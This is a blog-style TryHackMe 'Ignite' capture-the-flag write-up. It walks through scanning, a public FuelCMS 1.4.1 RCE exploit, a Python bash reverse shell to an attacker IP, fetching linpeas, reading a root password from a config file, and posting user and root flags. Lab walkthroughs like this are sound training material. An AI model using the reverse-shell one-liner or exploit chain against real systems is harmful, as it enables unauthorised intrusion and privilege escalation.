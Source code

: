 ```yaml
---
layout: post
title: 'Tryhackme: Ignite'
date:  2025-06-19 23:00:00 +0530 
categories: [Tryhackme]
tags: [hacking, tryhackme, writeup, ctf, publisher, sudo, apt, nmap, gobuster, fuelcms, linpeas, reverse-shell, privilege-escalation, flags] # TAG names should always be lowercase 
render_with_liquid: false
media_subpath: /images/Ignite/

---
```


# Tryhackme: Ignite — 19 June 2025

![TryHackMe Logo](THM.png)
![Ignite](ignite.png)

---

# 🕵️ Web App Testing & Privilege Escalation — Task 1

---

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN networkScan.txt 10.10.242.113
```
![Nmap Scan Screenshot](nmap_scan.png)

---

## 📂 Directory Scan (Gobuster)

**Command:**
```bash
gobuster dir -u http://10.10.87.128/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -o directory_scan.txt
```
![Directory Scan Screenshot](directory_scan.png)

---

## 🕸️ Web Scraping

![Web Scraping Screenshot](web_scraping.png)

**Credentials Found:**  
- **Username:** `admin`  
- **Password:** `admin`

---

## 🗂️ Exploiting FuelCMS v1.4.1

- **Exploit Repo:** [CVE-2018-16763-FuelCMS-1.4.1-RCE](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE.git)

![FuelCMS Exploit Screenshot](exploit_fuel.png)

**Exploit Command:**
```bash
python3 console.py -t <IP_Address>
```
![Exploit Output](exploit.png)

---

## 🐚 Reverse Shell

**Command:**
```bash
python -c 'import subprocess;subprocess.call(["bash","-c","bash -i >& /dev/tcp/10.8.76.195/4445 0>&1"])'
```
![Reverse Shell Screenshot](reserve_shell.png)

**Listener:**
```bash
nc -lvnp 4444
```
![Netcat Listener Screenshot](nc_listen.png)

---

## 🔼 Privilege Escalation

**Find SUID Binaries:**
```bash
find / -perm -4000 -type f 2>/dev/null
```
![SUID Scan Screenshot](SUID.png)

---

### 🛠️ Tools: LinPEAS

**Download LinPEAS:**
```bash
wget http://<Attacker_IP>:<Port>/linpeas.sh
```
![Download LinPEAS](Download_linpeas.png)

**Run LinPEAS:**
```bash
sh linpeas.sh
```
![LinPEAS Output](Linpeas.png)

**Flag Path Found:**
![LinPEAS Flag Path](linpeas_found_flag_path.png)

---

## 🏁 User Flag

- **Flag:** `6470e394cbf6dab6a91682cc8585059b`
![User Flag](flag.png)

---

## 🔑 Root Password Discovery

- **Password:** `mememe`
- **Found in:** `/var/www/html/fuel/application/config/database.php`

![Root Password Found](password_root_linpeas.png)

**Backup Manager Files:**
![Backup Manager Files](root_linpeas_backup_file.png)

---

## 🏆 Accessing Root

1. Try to switch user:
    ```bash
    su -
    ```
    If you get `su: must be run from a terminal`, spawn a TTY:
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    - Press `CTRL+Z` to background the shell.
    - Run:
      ```bash
      stty raw -echo
      fg
      ```
    - Press `ENTER` to return to the shell.

![Access Root](access_root.png)
![Run Netcat](run_nc.png)
![Gain Root](gain_root.png)

---

## 🏁 Root Flag

- **Flag:** `b9bbcb33e11b80be759c4e844862482d`

  ![Root Flag](root_flag.png)

---

## 🎉 Happy Hacking!

<div align="center">
   <img src="https://media.giphy.com/media/102h4wsmCG2s12/giphy.gif" alt="Happy Hacking" width="600"/>
</div>

